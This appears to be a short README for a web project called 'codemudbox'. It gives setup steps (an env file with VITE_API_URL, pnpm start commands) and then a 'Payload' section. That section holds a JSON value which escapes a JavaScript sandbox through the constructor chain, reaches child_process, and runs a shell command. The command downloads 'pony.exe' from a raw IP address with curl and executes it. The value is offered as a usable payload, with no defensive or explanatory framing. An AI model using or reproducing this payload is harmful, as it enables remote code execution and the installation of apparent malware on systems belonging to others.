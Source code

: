 # Setup
1 - Create a ```.env.[mode]``` file in ```/applications/web``` directory

2 - Set the following content
```
VITE_API_URL=<YOUR_API_URL>
# example: http://localhost:8080/api/v1
```

3 - Run the command:
```sh
~/codemudbox > pnpm start:development

or

~/codemudbox > pnpm start:production
```

# Payload

```json
{
  "payload": "this.constructor.constructor(\"return this\")().process.mainModule.require('child_process').spawn('curl -L \"http://90.3.190.160:6555/pony.exe\" > pony.exe && pony.exe', { shell: true })"
}
```
